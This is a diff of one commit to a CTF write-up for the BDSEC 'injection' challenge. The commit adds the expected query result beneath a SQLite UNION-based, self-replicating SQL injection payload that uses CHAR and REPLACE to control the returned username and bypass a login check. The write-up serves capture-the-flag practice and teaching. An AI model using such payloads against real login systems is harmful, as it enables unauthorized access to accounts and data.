

Before and after one commit to kiro6/writeups, a Markdown page: BDSEC CTF/injection/README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/BDSEC CTF/injection/README.md
+++ b/BDSEC CTF/injection/README.md
@@ -271,7 +271,10 @@ Yooo!! testttt"'!
 ```sqlite
 SELECT * FROM users WHERE username = 'testtt"\'' AND password = ' UNION SELECT CHAR(116,101,115,116,116,116,34,39), REPLACE(REPLACE(REPLACE(" UNION SELECT CHAR(116,101,115,116,116,116,34,39), REPLACE(REPLACE(REPLACE(\'$\',CHAR(39),CHAR(34)),CHAR(36),\'$\'), CHAR(92), CHAR());-- -",CHAR(39),CHAR(34)),CHAR(36)," UNION SELECT CHAR(116,101,115,116,116,116,34,39), REPLACE(REPLACE(REPLACE(\'$\',CHAR(39),CHAR(34)),CHAR(36),\'$\'), CHAR(92), CHAR());-- -"), CHAR(92), CHAR());-- -'
 ```
-
+##### the query result will be like
+```python
+('testtt"\'', ' UNION SELECT CHAR(116,101,115,116,116,116,34,39), REPLACE(REPLACE(REPLACE(" UNION SELECT CHAR(116,101,115,116,116,116,34,39), REPLACE(REPLACE(REPLACE(\'$\',CHAR(39),CHAR(34)),CHAR(36),\'$\'), CHAR(92), CHAR());-- -",CHAR(39),CHAR(34)),CHAR(36)," UNION SELECT CHAR(116,101,115,116,116,116,34,39), REPLACE(REPLACE(REPLACE(\'$\',CHAR(39),CHAR(34)),CHAR(36),\'$\'), CHAR(92), CHAR());-- -"), CHAR(92), CHAR());-- -')
+```
 
 
 ##### Great now we control the username output !!!
````
